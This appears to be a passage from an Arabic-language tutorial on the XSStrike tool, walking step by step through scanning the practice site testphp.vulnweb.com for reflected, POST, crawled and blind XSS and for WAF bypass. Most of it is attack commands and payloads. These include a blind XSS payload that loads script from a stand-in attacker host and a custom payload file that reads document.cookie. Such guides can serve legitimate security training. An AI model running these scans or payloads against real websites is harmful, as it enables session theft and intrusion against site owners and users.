 **خلاصة بالعامية**:
XSStrike بتمشي الموقع كله زي المكنسة، بتلاقي كل النقاط اللي ممكن تحقن فيها، وبعدين بتحلل إزاي الإنبوت بيظهر في الصفحة. بتطلع بايلودس مخصصة عشان تتخطى الفلاتر أو الـWAF. الأوامر اللي فوق دي بتخليك تفحص GET، POST، أو تعمل كراولينج للموقع كله. لو عايز Blind XSS، استخدم الـ `--blind`، ولو عايز تتحكم أكتر، جرب ملف بايلودس مخصص.

---

### **3. مثال عملي: فحص موقع ضعيف**
هنمشي خطوة خطوة على موقع زي `testphp.vulnweb.com` كمثال.

**الخطوة الأولى: فحص Reflected XSS**:
```bash
python3 xsstrike.py -u "testphp.vulnweb.com/listproducts.php?cat=query"
```
- بيفحص الباراميتر `cat`.
- لو لقى الإنبوت بيترجم في الصفحة، بيجرب بايلودس زي `"><script>alert(1)</script>`.
- لو نجح، هيديك PoC تثبت الثغرة.

**الخطوة التانية: فحص POST**:
لو الموقع فيه فورم:
```bash
python3 xsstrike.py -u "testphp.vulnweb.com/search.php" --data "search=query"
```
- بيفحص الباراميتر `search` في طلب POST.

**الخطوة التالتة: كراولينج الموقع**:
```bash
python3 xsstrike.py -u "testphp.vulnweb.com" --crawl -l 3
```
- بيلاقي كل الصفحات والفورمات في الموقع بعمق 3 مستويات.
- بيفحص كل إنبوت في الفورمات.

**الخطوة الرابعة: تخطي WAF**:
لو في WAF:
```bash
python3 xsstrike.py -u "testphp.vulnweb.com/search.php?q=query" --fuzzer
```
- بيجرب طرق مختلفة عشان يتخطى الفلاتر.

**الخطوة الخامسة: Blind XSS**:
```bash
python3 xsstrike.py -u "testphp.vulnweb.com" --crawl --blind
```
- بيحقن بايلودس Blind XSS زي `<script src="attacker.com/log.js"></script>` في الفورمات.

**مثال بايلود مخصص**:
اعمل ملف `payloads.txt`:
```
<script>alert(document.cookie)</script>
"><img src=x onerror=alert(1)>
<svg onload=alert(1)>
```
نفذ:
```bash
python3 xsstrike.py -u "testphp.vulnweb.com/search.php?q=query" -f payloads.txt
```
